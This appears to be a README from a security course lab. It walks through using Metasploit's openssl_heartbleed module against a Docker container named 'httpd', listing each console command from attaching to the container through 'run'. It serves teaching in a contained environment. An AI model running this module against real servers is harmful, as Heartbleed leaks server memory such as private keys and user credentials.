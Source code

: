 # Connect to docker container  

Attach to the metasploit container
```application/x-sh  
docker attach salp_salp-course-heartbleed_metasploit
```

# Exploit  

Search for Heartbleed.
```application/x-sh  
search heartbleed
```  

Use exploit e.g openssl_heartbleed.
```application/x-sh  
use auxiliary/scanner/ssl/openssl_heartbleed
```  

Show additional information for the choosen exploit. 
```application/x-sh  
info
```

Set the target IP (Inside a docker enviorment the alias of a docker container can be used as th IP).
```application/x-sh  
set RHOSTS httpd
```

Enable verbose mode to see all ouputs.
```application/x-sh  
set verbose true
```

Execute the exploit as many times you want.
```application/x-sh  
run
```